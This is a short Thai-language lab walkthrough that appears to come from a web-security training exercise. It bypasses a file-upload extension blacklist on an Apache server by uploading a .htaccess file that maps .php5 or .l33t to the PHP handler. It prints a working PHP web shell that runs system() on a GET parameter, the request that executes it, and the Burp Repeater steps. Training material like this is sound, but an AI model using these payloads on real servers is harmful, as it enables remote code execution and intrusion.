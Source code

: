 จะเห็นว่าเป็น apache server ผ่าน respond header สามารถใช้ php5 bupass blacklist ได้

```
GET /files/avatars/shell.php5?command=id HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39

<?php echo system($_GET['command']); ?>
```
นี่คือผลลัพธ์ของ .htaccess ที่ทำให้ respond เป็น plantext


**อัปโหลดไฟล์ .htaccess (เทคนิคสำคัญ)**
- ใน Burp Repeater ไปที่แท็บ `POST /my-account/avatar` หาส่วนที่เกี่ยวกับไฟล์ PHP แล้วแก้ไข:
  - เปลี่ยน `filename` เป็น `.htaccess`
  - เปลี่ยน `Content-Type` เป็น `text/plain`
  - แทนที่เนื้อหาไฟล์ (PHP payload) ด้วย Apache directive นี้:
```
AddType application/x-httpd-php .php5
```

หรือถ้าใช้นามสกุลปลอม:
```
AddType application/x-httpd-php .l33t
```

**สิ่งที่เกิดขึ้น:** คำสั่งนี้จะบอกเซิร์ฟเวอร์ว่าให้จับคู่นามสกุล `.l33t` (ที่เราแต่งขึ้น) กับ MIME type `application/x-httpd-php` ที่รันได้ เนื่องจากเซิร์ฟเวอร์ใช้ `mod_php` module มันจะรู้วิธีจัดการกับสิ่งนี้อยู่แล้ว


**สรุปเทคนิค:**
เราหลอกระบบโดยการอัปโหลดไฟล์ `.htaccess` ก่อน เพื่อแก้ไขการตั้งค่าเซิร์ฟเวอร์ให้รันไฟล์นามสกุลที่เราแต่งขึ้น (`.l33t`) เป็น PHP แล้วจึงอัปโหลดไฟล์โจมตีด้วยนามสกุลใหม่นี้ เป็นการข้าม blacklist อย่างชาญฉลาด!



![alt text](image-12.png)
